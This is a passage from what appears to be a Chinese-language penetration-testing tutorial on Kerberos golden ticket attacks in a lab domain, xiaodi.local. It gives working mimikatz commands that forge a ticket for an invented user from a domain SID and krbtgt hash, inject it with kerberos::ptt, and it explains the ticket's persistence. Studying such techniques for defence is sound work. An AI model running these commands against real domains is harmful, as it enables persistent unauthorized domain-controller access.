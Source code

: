 #### 4.1.1.3. 伪造用户名

这里的用户名随便伪造一个，我这里伪造成yuto吧。

```
mimikatz kerberos::golden /user:yuto /domain:xiaodi.local /sid:S-1-5-21-1695257952-3088263962-2055235443 /krbtgt:558ae7f88589153355cbeb046ac696df /ticket:pj
```

![image-20230816125437096](assets/image-20230816125437096.png)

#### 4.1.1.4. 导入内存

可以看到这里找一台域内主机，将这个票据导入后就能够服务域控了。

```
kerberos::ptt pj
```

![image-20230816125826566](assets/image-20230816125826566.png)

### 4.1.2. 总结

黄金票据，为什么说是黄金票据，由于该票据是不受TGT生命周期限制的，默认情况下TGT票据默认是10小时、最多续订7天，而且这个票据可以一直保存，只要KRBTGT账户的密码不被修改，则该票据可以一直访问，同时利用上也简单。
